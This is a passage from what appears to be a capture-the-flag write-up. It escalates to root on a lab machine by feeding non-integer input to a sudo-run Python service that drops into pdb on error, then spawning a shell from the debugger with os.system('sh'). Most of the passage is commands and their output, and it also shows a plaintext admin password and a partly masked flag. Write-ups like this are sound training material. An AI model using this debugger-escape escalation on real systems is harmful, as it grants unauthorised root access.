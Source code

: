 # Exploit
While I was looking at the file I noticed two things.
1. The input recieved from the client is being parsed as an integer
2. If there is an exception, remote-manage.py will print the exception and then open up pdb

Since we can run the script as Root, if I can trigger the debugger and escape it I will get a shell as root. We can trigger the exception by entering a non integer input (I inputed hey), as python will try to read it as int, causing an error to occur

## One more time
```bash
$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:7621
```

in another shell:
```bash
$ nc localhost 7621
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do:
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
hey
```

back in the other shell:
```bash
invalid literal for int() with base 10: b'hey'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) 
```

Worked like a charm. From here escaping PDB is pretty straighforward. All we have to do is import the OS module from python and spawn a shell!

```bash
(Pdb) import os
(Pdb) os.system('sh')
# whoami
root
# cd
# ls
clean-uploads.sh  root.txt  snap
# cat root.txt
5c129a3c151d81ac****************
```

And there we have it!
